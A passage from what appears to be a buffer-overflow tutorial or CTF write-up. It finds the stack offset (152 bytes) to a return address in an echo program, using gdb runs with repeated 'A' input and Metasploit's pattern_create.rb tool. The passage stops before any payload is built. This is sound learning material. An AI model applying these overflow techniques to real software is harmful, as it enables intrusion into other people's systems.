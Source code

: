 The last line contain the return address `0x0000000000400595`. As we can see, there are no '41' so we didn't override it. Let's increase to 155

```bash
(gdb) run $(python -c "print('A'*155)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000000000414141 in ?? ()
```

We start to see that we're overwriting the return address.  I kept increasing and went too far after 159.

158 is  the right amount, which override perfectly the return address with 6 bytes.

```bash
(gdb) run $(python -c "print('\x41'*158)")
Here's a program that echo's out your input
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
```

So we know that with 158 bytes we override the 6-bytes-long return address. It means our offset to reach the start of the return address is 158-6 = **152**

## Method 2 : With Metasploit's tool

We create a pattern of a random length with the tool `pattern_create.rb` from  Metasploit's framework. Let's try a 200 bytes pattern.

```bash
┌─[✗]─[l1ge@parrot]─[~]
└──╼$/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

We copy that pattern and run the binary in gdb with it

```bash
(gdb) run 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag'

Here's a program that echo's out your input
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400563 in copy_arg ()
```
